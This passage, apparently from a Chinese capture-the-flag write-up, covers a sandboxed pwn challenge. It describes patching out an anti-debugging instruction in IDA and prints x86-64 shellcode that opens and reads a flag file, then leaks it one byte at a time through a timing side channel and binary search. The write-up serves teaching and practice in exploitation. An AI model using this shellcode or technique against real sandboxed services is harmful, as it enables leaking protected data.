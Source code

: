 此指令在 IDA 中对应的代码为

[![](https://p1.ssl.qhimg.com/t013b471530dc3f776b.png)](https://p1.ssl.qhimg.com/t013b471530dc3f776b.png)

故我们使用快捷键 Ctrl + Alt + K 调用出 KeyPatch 的界面，将其内容修改为 nop 指令

[![](https://p1.ssl.qhimg.com/t016c02a5df4427dbe3.png)](https://p1.ssl.qhimg.com/t016c02a5df4427dbe3.png)

修改之后再执行 gdb 调试就不会出现问题

[![](https://p2.ssl.qhimg.com/t01c16794a7f066bb4f.png)](https://p2.ssl.qhimg.com/t01c16794a7f066bb4f.png)

**<a class="reference-link" name="%E7%BC%96%E5%86%99%20Shellcode"></a>编写 Shellcode**

这一部应该是题目的核心，要求我们写一段在 0x40 大小内的 shellcode，实现侧信道攻击得到 Flag 数据。并且因为这里 read 函数的限制，我们也无法二次读入一段 shellcode 来简化 shellcode 编写过程。

这里的侧信道攻击指的就是通过程序延迟时间等信息来泄露出一些不可以直接输出的内容，在我的理解中，SQL 注入中的时间延迟盲注也是类似的一种侧信道攻击。而在这道题目中，我们就给程序设置卡死或出错退出，来推断出汇编中执行指令的 True 或者 False。

我们这里就是利用这个思路，再配合上二分查找，这样就能够在短短几次中快速的确定 Flag 中某位的值。

**具体过程**

我们可以根据 open 的返回值（RAX）再结合 cmp 指令来确定此时打开的 fd 是否满足沙箱要求（fd &gt; 0x14），直到满足要求后再调用 read 读取 Flag 数据，再使用 ja 指令判定某位（i）的 Flag 是否大于某个值（mid）。

根据以上思路编写的 Shellcode

```
open:  
/* open(file='./flag', oflag=0, mode=0) */
/* push './flag\x00' */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
/* call open() */
push SYS_open /* 2 */
pop rax
syscall

cmp ax, 0x15
jne open
mov rdi, rax
xor rax, rax
mov cl, 0xff
mov esi, ecx
mov edx, esi
syscall

loop:
mov al, [rdx + `{`i`}`]
cmp al, `{`mid`}`
ja loop
```
